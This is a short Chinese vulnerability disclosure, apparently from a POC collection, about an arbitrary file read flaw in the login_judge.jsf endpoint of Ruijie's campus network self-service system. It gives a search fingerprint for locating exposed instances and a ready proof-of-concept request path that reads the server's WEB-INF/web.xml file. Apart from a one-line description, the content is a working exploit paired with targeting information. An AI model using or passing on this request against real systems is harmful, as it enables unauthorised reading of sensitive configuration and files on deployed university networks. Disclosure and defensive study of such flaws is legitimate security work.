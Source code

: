 # 锐捷 校园网自助服务系统 login_judge.jsf 任意文件读取漏洞

## 漏洞描述

锐捷 校园网自助服务系统 login_judge.jsf 接口存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器中的敏感文件

## 漏洞影响

<a-checkbox checked>锐捷 校园网自助服务系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>body="园网自助服务系"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](../../../.vuepress/public/img/1697855354969-1aec8552-b2c0-48f9-aa71-ffaea1493027.png)验证POC

```php
/selfservice/selfservice/module/scgroup/web/login_judge.jsf?view=./WEB-INF/web.xml%3F
```

![img](../../../.vuepress/public/img/1697855400526-0287f033-ce41-4282-93c7-27977519d5bf.png)